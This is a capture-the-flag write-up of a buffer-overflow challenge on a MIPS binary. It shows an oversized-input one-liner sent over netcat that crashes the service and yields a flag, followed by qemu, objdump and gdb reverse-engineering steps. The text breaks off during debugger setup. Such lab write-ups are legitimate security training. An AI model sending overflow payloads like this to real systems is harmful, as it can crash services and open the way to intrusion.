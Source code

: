 Well, it's kinda obvious from the task description that there's a buffer overflow happening somewhere. Let's feed a giant input to this thing:
```
> python3 -c "print('run\n' + '1'*1000)" | netcat buffer-overflow.ctfcompetition.com 1337
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
Bonus flag for controlling the crash.

Console commands: 
run
quit
>>Inputs: run
CTF{Why_does_cauliflower_threaten_us}
Cauliflower systems never crash >>
segfault detected! ***CRASH***
```
It was a cheaty way to do it but here's the first flag:

**Flag #1: CTF{Why_does_cauliflower_threaten_us}**

Let's see if we can get the bonus flag.

Trying to run `bof` directly:
```
> ./bof
bash: ./bof: cannot execute binary file: Exec format error
```
Let's check what this binary actually is:
```
> file bof
 bof: ELF 32-bit LSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=a31c48679f10dc6945e7b5e3a88b979bebe752e3, not stripped
```
It's compiled for MIPS architecture, but it would be probably possible to run it with an emulator.
Looking at the `console.c` we can see that the remote machine uses emulator as well:
```
system("/usr/bin/qemu-mipsel-static ./bof");
```
After installing `qemu` let's try to run the binary again:
```
/usr/bin/qemu-mipsel ./bof
Cauliflower systems never crash >>
```
Success!
Now let's try to disassemble `bof` with objdump (using `cross-mipsel-linux-gnu-binutils`):
```
mipsel-linux-gnu-objdump -d bof
```
`main` function is located at `400908` and there's a very interesting instruction inside it:
```
4009e0:	0411ff97 	bal	400840 <local_flag> 0x400840
```
It looks like `main` makes a call to another function with a very promising name `local_flag`. 
Inside `local_flag` this is happening:
```
 400874:	0411ffae 	bal	400730 <print_file>
```
Let's see if we can debug this whole thing with `gdb` (`gdb-multiarch`). For that we need to run `qemu` with `-g` parameter, which will
make `qemu` wait for `gdb` connection to the specified port:
```
python3 -c "print('1'*1000)" | qemu-mipsel -g 12345 ./bof
```
Running `gdb`, specifying architecture and address for remote debugging:
```
> gdb-multiarch bof
GNU gdb (GDB) 9.1
[...]
(gdb) set arch mips
```